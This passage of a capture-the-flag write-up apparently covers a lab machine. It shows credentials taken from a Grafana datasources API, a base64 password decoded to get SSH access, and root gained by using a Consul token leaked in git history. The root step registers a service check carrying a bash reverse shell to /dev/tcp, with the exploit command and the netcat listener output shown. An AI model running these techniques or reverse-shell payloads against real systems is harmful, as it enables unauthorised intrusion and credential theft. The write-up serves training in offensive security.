    "defaultNavUrl": "/plugins/mysql/",
    "category": "sql",
    "state": "",
    "signature": "internal",
    "signatureType": "",
    "signatureOrg": ""
  },
```

Within the Grafana UI, we can see the MySQL data source and reference to a yaml file, but no password:



Naturally, I tried connecting to the MySQL instance with no password, but this failed:

```bash
$mysql -h 10.10.11.183 -u grafana
ERROR 1045 (28000): Access denied for user 'grafana'@'10.10.14.48' (using password: NO)
```

But we can already see the datasources API, which shows us MySQL credentials [http://10.10.11.183:3000/api/datasources](http://10.10.11.183:3000/api/datasources):

```json
[
  {
    "id": 2,
    "uid": "uKewFgM4z",
    "orgId": 1,
    "name": "mysql.yaml",
    "type": "mysql",
    "typeName": "MySQL",
    "typeLogoUrl": "public/app/plugins/datasource/mysql/img/mysql_logo.svg",
    "access": "proxy",
    "url": "",
    "password": "dontStandSoCloseToMe63221!",
    "user": "grafana",
    "database": "grafana",
    "basicAuth": false,
    "isDefault": false,
    "jsonData": {},
    "readOnly": true
  }
]
```

So we have mysql credentials grafana / dontStandSoCloseToMe63221!, and we can connect to and enumerate the database.  Grafana was empty, but the whackywidget database looks juicy:

```bash
$mysql -h 10.10.11.183 -u grafana -p grafana
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 48
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.024 sec)
MySQL [grafana]> use whackywidget;
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.021 sec)
MySQL [whackywidget]> SELECT * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.021 sec)
```

This password looks like a base64 string padded out, rather than a one-way hash:

```bash
$echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

I was able to SSH in with the above to get a foothold on the system and subsequently now had the user flag! Hooray!:

```bash
$ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ECDSA key fingerprint is SHA256:+BgUV7q/7f6W3/1eQWhIKW2f8xTcBh3IM0VwbIAp2A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ECDSA) to the list of known hosts.
developer@10.10.11.183's password: 
Last login: Thu Jan 26 06:56:31 2023 from 10.10.14.18
developer@ambassador:~$ ls
snap  user.txt
developer@ambassador:~$ cat user.txt
3d9d82f72c72f7406d20f509356e2f1e
```

## Privilege Escalation

I won't write every gory  detail here, but suffice to say, I tried low hanging fruit:
* sudo -- can't run sudo as developer user
* no unusual processes running
* no setuid binaries I can execute
* nothing in my home directory
* nothing unusual in my printenv
* there's a path `/development-machine-documentation/`, which contains the static hugo site we found earlier -- it contains a deploy.sh which copies files into `/var/www/html`.  Nothing stood out here as helpful to gaining root

The most obvious thing running as root that looked interesting was the consul agent:

```bash
developer@ambassador:/etc/consul.d/config.d$ ps aux | grep consul
root        1070  0.4  3.8 795828 76960 ?        Ssl  05:26   1:28 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
```

Unfortunately, I didn't have permission to read the config directory or file passed as params to the process.

According to documentation, the agent should run on TCP 8500 and 8501 for HTTP and HTTPS respectively [Required Ports | Consul | HashiCorp Developer](https://developer.hashicorp.com/consul/docs/install/ports).  So checking netstat:

```bash
developer@ambassador:/etc/consul.d/config.d$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -    
```

With no idea how to interact with it, I confirmed I could hit the HTTP server locally from the machine, but not from my own machine -- so I assumed it was firewalled but accessible locally:

```bash
developer@ambassador:/etc/consul.d/config.d$ curl -v "http://127.0.0.1:8500/v1/agent/checks"
*   Trying 127.0.0.1:8500...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8500 (#0)
> GET /v1/agent/checks HTTP/1.1
> Host: 127.0.0.1:8500
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json
< Vary: Accept-Encoding
< X-Consul-Default-Acl-Policy: deny
< Date: Thu, 26 Jan 2023 11:19:46 GMT
< Content-Length: 2
< 
* Connection #0 to host 127.0.0.1 left intact

```

I tried to check the agent version, but get a permission denied:

```bash
developer@ambassador:~$ curl --silent http://localhost:8500/v1/agent/self 
Permission denied: token with AccessorID '00000000-0000-0000-0000-000000000002' lacks permission 'agent:read' on "ambassador"developer@ambassador:~$ 


```

This led me to wonder if i could create my own token to pass to the API.  Unfortunately I lacked acl:write permission.  I tried a few different JSON payloads in curl against /v1/agent/check/register, including "script", with a reverse shell but nothing seemed to work.  I also tried `consul acl token list` thinking perhaps the developer user had more access to consul than a HTTP request, but didn't have acl:read either.  My access was very restricted :(


Searching the file system for consul, I found a bash script in a directory for an app that looks familiar (whackywidget):

```bash
developer@ambassador:/opt$ find / -name '*consul*' 2> /dev/null
..snip..
/opt/consul
/opt/my-app/whackywidget/put-config-in-consul.sh
/usr/lib/systemd/system/consul.service
/usr/bin/consul

developer@ambassador:/opt$ cat /opt/my-app/whackywidget/put-config-in-consul.sh 
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

So `CONSUL_HTTP_TOKEN` needs to be set, and searching the file system yielded nothing.

I noticed in `/opt/my-app/` a .git directory.  Running a `git log -p` to show the commit diffs against this repository, I found:

```
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

The developer had clearly hard-coded their Consul token, realised their mistake, and removed it -- while forgetting the token was still accessible via git commit logs.

I found the following python script to do RCE over Consul API with a valid token: [Hashicorp-Consul-RCE-via-API/exploit.py at main · GatoGamer1155/Hashicorp-Consul-RCE-via-API · GitHub](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API/blob/main/exploit.py)

This appears to `PUT /v1/agent/service/register`, with a JSON payload similar to:

```json
{
    "Address": "127.0.0.1",
    "check": {
        {
            "Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.10.10/1234 0>&1"],
            "interval": "10s",
            "Timeout": "864000s"
        }
    }
}
```

The consul documentation outlines the service check register API here: [Service - Agent - HTTP API | Consul | HashiCorp Developer](https://developer.hashicorp.com/consul/api-docs/agent/service#check)

Basically, given our consul token we obtained via git, we can register a service check on the consul agent that will run a periodic script.  In this case, we run a reverse shell connecting back out to our locally running netcat instance.

Let's try it out:

```bash
python3 consule_rce.py --lhost 10.10.14.48 --lport 3322 --rhost 127.0.0.1 --rport 8500 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener

```

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.183] 60742
bash: cannot set terminal process group (3858): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
db59b71542a934db27b28462577febcd
```

As expected, the consul agent, running as root, spawns a shell connecting back to my listening netcat instance giving me a root shell.

And with that, we have the root flag! Woo!

## Conclusion

The most difficult part for this challenge was the privilege escalation -- luckily consul seemed like the first (and only?) obvious process running as root that could be exploitable -- so it was the clear first choice for investigating privesc.   Uncovering the bash script was easy, but I stumbled a little before finding the git logs to get the token I could use with the API.  After this, registering a "service" to give me a reverse shell was quite easy.

A fun VM, but perhaps easier than I expected for Medium difficulty.  I'm interested to see how challenging the next one is.  I had not thought to find and check the logs of github repositories on compromised machines before, so this has been added to my arsenal of things to look out for and enumerate.

The temptation often is to break out LinPEAS and just scan, but getting a 'feel' for a server -- what does it appear to be used for? what story does it tell? and what kind of things should I be looking for? -- and enumerating on a case by case basis seems to be a nicer way to narrow down the possibilities without being overwhelmed by all the potentials of enumerating many things at once.
